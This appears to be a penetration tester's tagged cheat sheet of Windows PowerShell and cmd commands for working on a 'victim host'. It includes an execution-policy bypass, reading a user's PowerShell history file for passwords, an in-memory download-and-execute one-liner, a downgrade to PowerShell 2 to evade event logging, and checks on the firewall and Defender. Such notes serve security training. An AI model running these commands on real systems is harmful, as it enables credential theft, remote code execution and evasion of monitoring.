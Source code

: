 ```PowerShell
Set-ExecutionPolicy Bypass -Scope Process
```
This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
#policies #enumeration ^879773

```PowerShell
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.
#history #passwords #files #scripts #enumeration ^d12abc

```PowerShell
Get-ChildItem Env: | ft Key,Value
```
Return environment values such as key paths, users, computer information, etc.
#path #usernames #computers #domaininfo #enumeration ^1ad28a

```PowerShell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" 
```
This is a quick and easy way to download a file from the web using PowerShell and call it from memory.
#filetransfers 


#### Downgrade PowerShell

```PowerShell
Get-host
```
Checks version of PowerShell
#version #enumeration 

```PowerShell
powershell.exe -version 2
```
Downgrades to version 2. Older versions are a great way to remain under the radar, as they don't feature event logging. ^592857


#### Checking Defenses

```PowerShell
netsh advfirewall show allprofiles
```
Checks Firewall
#firewall #enumeration   ^87aa24

```cmd.exe
sc query windefend
```
Checks Windows Defender (from CMD.exe)
#defender #enumeration  ^19d9bb
